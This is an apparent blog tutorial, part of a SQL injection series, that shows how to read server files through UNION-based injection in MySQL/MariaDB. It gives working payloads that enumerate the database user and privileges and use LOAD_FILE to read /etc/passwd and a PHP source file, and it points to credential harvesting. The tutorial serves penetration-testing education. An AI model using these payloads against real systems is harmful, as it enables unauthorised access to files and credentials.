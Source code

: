 ```yaml
---
title: "SQLi Series - Reading Files through SQL Injection - 08"
seoTitle: "SQL Injection: Reading Files Tutorial"
seoDescription: "Explore how SQL Injection can be used to read and write files on servers, highlighting the importance of user privileges and techniques"
datePublished: Sun Apr 21 2024 19:18:01 GMT+0000 (Coordinated Universal Time)
cuid: clv9wuuko00000ala6ga60cbd
slug: sqli-series-reading-files-through-sql-injection-08
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713727062162/84a6acf3-3c23-48d6-aa65-a184b3a49225.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713727065694/7c186fc2-c097-45de-803b-1b431463a95a.png
tags: sqlinjection, redteaming, pente

---
```


## **Introduction**

* SQL Injection can be used for more than just gathering data from tables and databases
    
* It can also be leveraged to read and write files on the server
    
* In some cases, it can even lead to remote code execution on the back-end server
    

## **Privileges**

* Reading data is more common than writing data
    
* Writing data is strictly reserved for privileged users in modern DBMSes
    
* In MySQL, the DB user must have the FILE privilege to load a file's content into a table and read files
    
* Gathering data about user privileges within the database is important to determine read/write capabilities
    

### Diagram

![](https://imgr.whimsical.com/thumbnails/e3KByHu39W3Q3DKow27cp/FSqG89kjXDYpA2eVKYA2ES align="center")

## **Determining the DB User**

* Finding the current DB user is the first step
    
* Database administrator (DBA) privileges are not always necessary to read data, but are becoming more required in modern DBMSes
    
* DBA privileges increase the likelihood of having file-read privileges
    
* If not a DBA, checking user privileges is crucial to see what actions can be performed
    

Queries to find the current DB user:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

```

UNION injection payload:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -

```

or

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726897409/f0b017ad-6a59-4899-b5e7-5efd06266094.png align="center")

Example:

* The query reveals the current user is `root`
    
* A `root` user is likely to be a DBA, granting many privileges
    

## **Checking User Privileges**

* After identifying the user, the next step is to check their privileges
    
* Testing for super admin privileges can be done with the following query:
    

```sql
SELECT super_priv FROM mysql.user

```

UNION injection payload:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

```

* If there are multiple users, adding `WHERE user="root"` will show privileges only for the current `root` user:
    

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

```

Example:

* The query returns `Y`, indicating superuser privileges
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726914947/32646725-0e52-46e0-beee-83e3107a61f6.png align="left")

* Privileges can also be dumped directly from the schema using the following query:
    

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726921027/3f01a254-19ae-408d-89c4-1d45b0efb481.png align="left")

* Adding `WHERE grantee="'root'@'`[`localhost`](http://localhost)`'"` will show privileges only for the current `root` user:
    

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

```

Example:

* The query reveals all privileges granted to the current `root` user
    
* The `FILE` privilege is listed, enabling file read and potentially write access
    

## **Reading Files with LOAD\_FILE**

* The `LOAD_FILE()` function in MariaDB/MySQL can be used to read data from files
    
* It takes the file name as its argument
    
* Example query to read the `/etc/passwd` file:
    

```sql
SELECT LOAD_FILE('/etc/passwd');

```

Note: The file will only be readable if the OS user running MySQL has sufficient privileges.

UNION injection payload:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

```

Example:

* The query successfully reads the contents of the `passwd` file through the SQL injection
    
* This technique can potentially be used to leak application source code as well
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726928144/24bd1ca3-d811-4c8e-9b9b-6e584ef2d8a8.png align="left")

## **Reading Application Source Code**

* Knowing the current page is `search.php`, an attempt can be made to read its source code
    
* The default Apache webroot is `/var/www/html`
    

UNION injection payload:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

```

Example:

* The query retrieves the entire PHP code of `search.php`
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1713726935019/a41928be-ef1e-42f6-bddc-45ed3ebb0732.png align="left")

* The HTML source can be viewed by pressing \[Ctrl + U\]
    
* The source code could be inspected further to find sensitive information like database connection credentials or additional vulnerabilities
    

## **Conclusion**

* SQL Injection is a powerful technique that goes beyond data retrieval
    
* With sufficient privileges, it can be used to read and potentially write files on the server
    
* Determining the current DB user and their privileges is crucial for assessing file read/write capabilities
    
* The `LOAD_FILE()` function in MySQL/MariaDB enables reading files through SQL injection
    
* This technique can be leveraged to leak application source code and uncover sensitive information or vulnerabilities